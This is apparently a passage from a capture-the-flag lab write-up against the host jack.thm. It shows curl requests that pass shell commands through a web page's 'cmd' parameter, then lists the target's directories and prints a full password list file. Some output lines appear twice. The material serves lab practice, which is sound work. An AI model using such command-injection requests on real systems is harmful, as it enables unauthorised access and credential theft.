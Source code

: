`curl -skLX $'GET' -b $'PHPSESSID=n2rtkedo3v33dtr3u8tqmevgp0; login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84' $'http://jack.thm:22/nnxhweOV/index.php?cmd=ls%20-lsa'`

```powershell
GET me a 'cmd' and I'll run it for you Future-Jack.
total 12
4 drwxr-xr-x 2 root root 4096 Feb 28  2020 .
4 drwxr-xr-x 4 root root 4096 Mar  1  2020 ..
4 -rwxr-xr-x 1 root root  322 Feb 28  2020 index.php
4 -rwxr-xr-x 1 root root  322 Feb 28  2020 index.php
```

`curl -skLX $'GET' -b $'PHPSESSID=n2rtkedo3v33dtr3u8tqmevgp0; login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84' $'http://jack.thm:22/nnxhweOV/index.php?cmd=ls%20-lsa%20/home'`

```powershell
GET me a 'cmd' and I'll run it for you Future-Jack.
total 16
4 drwxr-xr-x  3 root root 4096 Feb 29  2020 .
4 drwxr-xr-x 23 root root 4096 Feb 29  2020 ..
4 drwxr-x---  3 jack jack 4096 Feb 29  2020 jack
4 -rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
4 -rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list 
```

`curl -skLX $'GET' -b $'PHPSESSID=n2rtkedo3v33dtr3u8tqmevgp0; login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84' $'http://jack.thm:22/nnxhweOV/index.php?cmd=cat%20/home/jacks_password_list'`

```powershell
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
ow5APF>6r,y4krSo
```
